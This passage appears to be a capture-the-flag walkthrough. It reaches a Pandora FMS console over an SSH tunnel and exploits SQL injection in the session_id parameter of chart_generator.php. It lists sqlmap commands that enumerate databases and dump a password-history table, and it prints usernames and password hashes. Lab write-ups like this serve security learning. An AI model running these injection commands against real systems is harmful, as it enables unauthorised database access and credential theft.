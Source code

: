 So now we are going to open Firefox and we are going to connect to the "localhost / 127.0.0.1" it does not matter which of those you connect, you will be automatically connected to the port 80. On the previous ssh command we can see that we established a tunnel on our port 80, so we will be able to see the login page.

We are able to see a version on the login page: "v7.0NG.742_FIX_PERL2020"

## SQL Injection
So this guy shows how to exploit the sqli injection vulnerability on the pandora fms software.
https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

The vuln is located in the chart_generator.php sessions_id parameter
So we are going to use sqlmap tool to see what info can we get from the machine databases
```sql
sqlmap --url="http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" --dbs
```
**Output:**

```sh
available databases [2]:
[*] information_schema
[*] pandora
```
```
sqlmap --url="http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
```
we found an interesting table called "tpassword_history" 
```
sqlmap --url="http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" -D pandora -T tpassword_history --columns
```
**Output:**

| Column     | Type             |
| ---------- | ---------------- |
| date_begin | datetime         |
| date_end   | datetime         |
| id_pass    | int(10) unsigned |
| id_user    | varchar(60)      |
| password   | varchar(45)      |

So here we can select which of those columns we want to see using "--dump", in my case i want to see every columns but date_begin.
```
sqlmap --url="http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" -D pandora -T tpassword_history -C date_end,id_pass,id_user,password --dump
```
**Output:**

| date_end            | id_pass | id_user | password                         |
| ------------------- | ------- | ------- | -------------------------------- |
| 0000-00-00 00:00:00 | 1       | matt    | f655f807365b6dc602b31ab3d6d43acc |
| 0000-00-00 00:00:00 | 2       | daniel  | 76323c174bd49ffbbdedf678f6cc89a6 |
